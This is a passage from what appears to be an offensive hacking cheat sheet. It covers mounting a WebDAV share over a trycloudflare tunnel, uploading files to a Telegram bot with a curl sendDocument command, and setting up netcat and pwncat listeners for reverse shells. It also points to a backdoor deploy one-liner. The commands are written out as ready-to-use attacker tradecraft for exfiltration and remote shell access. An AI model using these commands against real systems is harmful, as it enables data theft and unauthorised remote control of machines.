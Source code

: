 Access the share from Windows (to drag & drop files) in File Explorer:
```
\\example-foo-bar-lights.trycloudflare.com@SSL\sources
```

Or mount the WebDAV share on Windows (Z:/):
```
net use * \\example-foo-bar-lights.trycloudflare.com@SSL\sources
```

---
<a id="tg"></a>
### 4.xi. File transfer to Telegram

There are [zillions of upload services](#cloudexfil) but TG is a neat alternative. Get a _TG-Bot-Token_ from the [TG BotFather](https://www.siteguarding.com/en/how-to-get-telegram-bot-api-token). Then create a new TG group and add your bot to the group. Retrieve the _chat_id_ of that group:
```sh
curl -s "https://api.telegram.org/bot<TG-BOT-TOKEN>/getUpdates" | jq -r '.result[].message.chat.id' | uniq
# If you get only {"ok":true,"result":[]} then remove and add the bot again.
```

```sh
# Upload file.zip straight into the group chat:
curl -sF document=@file.zip "https://api.telegram.org/bot<TG-BOT-TOKEN>/sendDocument?chat_id=<TG-CHAT-ID>"
```

---
<a id="reverse-shell"></a>
## 5. Reverse Shell / Dumb Shell

Tip: Use [https://www.revshells.com/](https://www.revshells.com/) 👌

<a id="reverse-shell-gs-netcat"></a>
**5.i.a. Reverse shell with gs-netcat (encrypted)**

See [6. Backdoors](#backdoor) for a 1-liner to deploy and access a fully functioning PTY reverse shell using [https://gsocket.io/deploy](https://gsocket.io/deploy).

<a id="reverse-shell-bash"></a>
**5.i.b. Reverse shell with Bash**

Start netcat to listen on port 1524 on your system:
```sh
nc -nvlp 1524
```
After connection, [upgrade](#reverse-shell-interactive) your shell to a fully interactive PTY shell. Alternatively use [pwncat-cs](https://pwncat.org/) instead of netcat:
```sh
pwncat -lp 1524
# Press "Ctrl-C" if pwncat gets stuck at "registered new host ...".
# Then type "back" to get the prompt of the remote shell.
```
